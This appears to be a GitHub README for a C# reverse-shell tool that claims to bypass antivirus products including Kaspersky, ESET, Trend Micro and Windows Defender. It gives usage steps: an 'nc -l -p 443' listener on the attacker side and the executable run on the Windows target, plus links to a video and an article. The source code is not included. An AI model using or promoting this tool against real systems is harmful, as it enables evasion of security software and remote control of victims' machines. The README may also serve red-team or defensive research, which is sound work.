 # NativePayload_ReverseShell
This is Simple C# Source code to Bypass almost "all" AVS, (kaspersky v19, Eset v12 v13 ,Trend-Micro v16, Comodo &amp; Windows Defender Bypassed via this method Very Simple) 

Note: it is "kind of Reverse shell", Can You Guess "Since When" : This Code Worked & Still Working... ? 

    //// Step 1 (Linux Side:192.168.56.1)   : nc -l -p 443 
 
    //// Step 2 (Windows Side:192.168.56.x) : NativePayload_ReverseShell.exe 192.168.56.1 443 
    
Video Step by Step : https://www.youtube.com/watch?v=VkFcy1Dg-pU&feature=youtu.be

Article : https://www.linkedin.com/pulse/bypassing-avs-c-managed-code-reverse-shell-damon-mohammadbagher/


